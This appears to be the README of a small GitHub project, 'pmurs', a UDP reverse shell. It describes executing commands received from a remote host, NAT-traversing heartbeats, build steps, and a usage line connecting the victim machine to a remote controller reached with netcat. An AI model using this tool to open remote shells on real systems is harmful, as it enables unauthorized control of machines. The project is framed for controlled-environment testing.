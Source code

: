 # pmurs, AKA Poor Man's UDP Reverse Shell

This program opens a UDP socket and keeps executing whatever is received from
a remote IP/PORT in a shell, returning the output back. At the same time, it
sends a dummy UDP packet, a *heartbeat*, every `n` seconds to that IP/PORT to
open any NAT in the middle. Linux establishes a timeout of 60 seconds (see
`/proc/net/nf_conntrack`), so the interval should be shorter than that.

**I warn you: don't use this outside of a controlled environment**.

## Compilation

```bash
autoreconf --install
./configure
make
```

## Usage

In the *controlled* machine:

```bash
./pmurs <remote_IP> <remote_PORT> <local_PORT> <heartbeat_interval>
```

Then, in the *controlling* machine, you can, for instance, connect with `netcat`
and start sending commands.
